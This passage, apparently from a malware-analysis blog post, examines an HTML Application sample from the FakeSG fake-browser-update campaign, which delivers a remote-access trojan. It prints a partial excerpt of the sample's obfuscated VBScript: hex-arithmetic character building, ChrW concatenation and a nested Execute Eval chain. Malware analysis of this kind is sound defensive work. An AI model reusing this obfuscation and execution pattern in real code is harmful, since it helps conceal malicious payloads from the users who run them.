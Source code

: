 ```yaml
---
layout: post
title:  "Analyzing FakeSG Malware Campaign Sample"
date:   2023-09-12 00:00:00 +0000
categories: malware
---
```


### 1. Campaign
FakeSG is an ongoing malware campaign (as of 12 Sep 2023). The campaign aims to compromise websites, which imitate the victim's browser update page - prompting the user to install and execute a malicious file.

The FakeSG campaign is known for its heavy obfuscation and payload delivery tactics - opting to HTML Applications `(.hta)` files to ultimately deliver the [NetSupport Manager RAT](https://malpedia.caad.fkie.fraunhofer.de/details/win.netsupportmanager_rat). [(Source)] (https://www.pcrisk.com/removal-guides/27315-fakesg-malware).

In this blog entry, we will analyze a `.hta` instance from the campaign


<br>
### 2. Obfuscation
Here's a snippet of the embedded VBScript in the `.hta` document. The obfuscation consists of 3 main parts.

A brief explanation of VBScript syntax:
+ `:` separates the next command, like `;` in most other languages.
+ `=` denotes variable assignment.
+ `&H` denotes a hexadecimal number. (`&H10` equals decimal 16).
+ `ChrW()` converts decimal numbers into unicode characters.
+ `&` concatenates strings together.

{% highlight vbscript %}
<script language="vBsCrIPt">

a70=574 - &H1F8:a117=872 - &H2F3:a110=932 - &H336:a99=711 - &H264:a116=679 - &H233:a105=980 - &H36B:a111=255 - &H90:a110=582 - &H1D8:a32=390 - &H166:a66=684 - &H26A:a99=926 - &H33B:a100=642 - &H21E:a40=925 - &H375:a66=955 - &H379:a121=707 - &H24A:a86=809 - &H2D3:a97=1071 - &H3CE:a108=814 - &H2C2:a32=965 - &H3A5:a71=269 - &HC6:a68=183 - &H73:a66=258 - &HC0:a41=307 - &H10A:a13=994 - &H3D5:a10=241 - &HE7:a32=633 - &H259:a32=320 - &H120:a32=815 - &H30F:a32=265 - &HE9:a32=530 - &H1F2:a32=964 - &H3A4:a32=571 - &H21B:a32=932 - &H384:a32=614 - &H246:a32=320 - &H120:a32=605 - &H23D:a32=394 - &H16A:a32=334 - &H12E:a32=980 - &H3B4:a32=598 - &H236:a32=293 - &H105:a32=874 - &H34A:a32=452 - &H1A4:a32=764 - &H2DC:a68=669 - &H259:a105=755 - &H28A:a109=1095 - &H3DA:a32=840 - &H328:a120=335 - &HD7:a100=585 - &H1E5:a113=1018 - &H389:a13=492 - &H1DF:a10=683 - &H2A1:a32=758 - &H2D6:a32=619 - &H24B:a32=443 - &H19B:a32=620 - &H24C:a32=871 - &H347:a32=513 - &H1E1:a32=992 - &H3C0:a32=719 - &
...
...
res =  ChrW ( a70 ) & ChrW ( a117 ) & ChrW ( a110 ) & ChrW ( a99 ) & ChrW ( a116 ) & ChrW ( a105 ) & ChrW ( a111 ) & ChrW ( a110 ) & ChrW ( a32 ) & ChrW ( a66 ) & ChrW ( a99 ) & ChrW ( a100 ) & ChrW ( a40 ) & ChrW ( a66 ) & ChrW ( a121 ) & ChrW ( a86 ) & ChrW ( a97 ) & ChrW ( a108 ) & ChrW ( a32 ) & ChrW ( a71 ) & ChrW ( a68 ) & ChrW ( a66 ) & ChrW ( a41 ) & ChrW ( a13 ) & ChrW ( a10 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a68 ) & ChrW ( a105 ) & ChrW ( a109 ) & ChrW ( a32 ) & ChrW ( a120 ) & ChrW ( a100 ) & ChrW ( a113 ) & ChrW ( a13 ) & ChrW ( a10 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( 
...
...
Execute Eval("Eval(""Eval(""""Eval(""""""""Eval(""""""""""""""""Eval(""""""""""""""""""""""""""""""""Eval(""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""Eval(""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""Eval(""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""Eval(""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""Eval
...
...

Close
</script>
{% endhighlight %}



<br>
### 2. Obfuscation